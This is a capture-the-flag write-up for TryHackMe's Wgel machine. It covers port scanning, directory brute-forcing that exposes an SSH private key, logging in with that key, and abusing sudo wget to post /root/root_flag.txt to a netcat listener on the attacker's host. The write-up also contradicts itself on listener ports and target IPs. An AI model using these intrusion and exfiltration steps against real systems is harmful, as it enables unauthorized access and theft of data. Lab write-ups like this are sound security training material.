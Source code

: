 # Information

- **CTF Name**:  Wgel CTF
- **CTF Level**: Easy
- **CTF Description**: Can you exfiltrate the root flag?
- **Date**: 16/09/2025
- **Platform**: TRYHACKME
- **Category**: Machine
# step 1: Scanning the target ip
nmap scan with srvice and version ,skip host discovery(no ping) : nmap -sV -Pn 10.10.65.37
![[Screenshot 2025-09-16 214444.png]]
                       nmap scan
as we see from above two ports are open.HTTP and SSH,open http indicates the existance of web page.it is apache2 ubuntu default page now look at the source page to gather some information
![[VirtualBox_hunter_16_09_2025_20_32_01.png]]
                       some part of apache2 source page
   
# Step 2 Directory Bruteforce
Dirb is directory bruteforce that use around 4,612 word to perform bruteforcing
![[Screenshot 2025-09-16 213809.png]]
                   Directory Bruetforce
key directory come accross while we perform bruteforceing.it is  http://10.10.49.7/.ssh/

![[Screenshot 2025-09-16 215741.png]]
I clicked on the id_rsa directory and it showed me a private ssh key. Which can be used to log into ssh without a password
![[Screenshot 2025-09-16 215804.png]]
I just copied it into a file and made sure to change it’s file permissions to 600, because it won’t work without certain permissions.

nano rsa   
chmod 600 id_rsa

- Exploit  
    Now we can log in through ssh

ssh -i rsa jessie@[ip]
    username found from website page source
    ![[Screenshot 2025-09-22 095448.png]]
    Now , we got low-level access so we can access user flag.
![[Screenshot 2025-09-22 100136.png]]
To find root flag we need escalate your privilege to the highest level.
## Privilege escalation

The first thing we should is to check the Sudo permissions, what we can run as root:
![[Screenshot 2025-09-22 102034.png]]
Okay, we now know that we can run wget as root, let’s search for it GFTO.
## Starting listener

Use netcat to start listener.
               nc -lvp 800
The above command is used to set up a netcat listener on port 3344. Netcat is a versatile networking utility, and this command specifies the following options:

- `**l**`: option tells netcat to listen for incoming connections.
- `**v**`: stands for "verbose" and makes netcat display more information about the connection.
- `**p 800**`: specifies the port number, in my case it’s port 800.
![[Screenshot 2025-09-23 083503.png]]
Now, Finally use wget command to get root flag through listner.

sudo /usr/bin/wget --post-file=/root/root_flag.txt http://10.8.180.91:800
  ![[VirtualBox_hunter_23_09_2025_09_43_14.png]]
  We got the root flag.
  ![[VirtualBox_hunter_23_09_2025_09_43_28 1.png]]
  
  